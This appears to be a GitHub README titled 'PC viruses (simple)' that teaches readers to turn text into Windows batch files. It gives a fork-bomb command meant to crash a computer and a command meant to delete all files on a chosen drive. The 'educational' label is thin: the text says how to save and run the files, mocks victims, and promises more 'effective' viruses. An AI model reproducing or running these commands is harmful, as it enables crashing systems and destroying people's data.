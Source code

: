 # PC viruses (simple)
It's a simple virus for education and learn how to create an easy viruses with txt to bat file ❤️‍🔥

It's too simple, u don't have any professional knowledge about pc and more,  

What u need?

1. PC with windows running OS

2. mouse and keyboard

3. A brain

Lets start: 

Copy the code and then right click , create a simple notepad (txt) file, then paste the text, save as all file

Then u should change the name and extension to smt like "name.bat" u should save it as BAT file to work!!

Then click it and boom 🤯 

Note: It's educational and DO NOT USE IT IN YOUR PC!

if u say i clicked it and my pc get ... I LMAO u 🏑;)

Simple 🦠🦟 : just copy these and paste to text file!

1. A fork Bomb 💣

"%0|%0"

It's just crash a pc for a while

2. Format a Partition (DRIVE):

(u can't use it for C drive BCAZ u use it right when u click it! So choose another drive letter)

"@echo off Del E:\ *.* |y"

U can choose any letter instead of E letter

U know it and do not need i repeat it for u

U should copy the sentence in double quotation "*"

Above u should copy * 

Have good time 😵‍💫❤️‍🔥

Note: I'll upload a word or PDF file for some effective virus 🏑

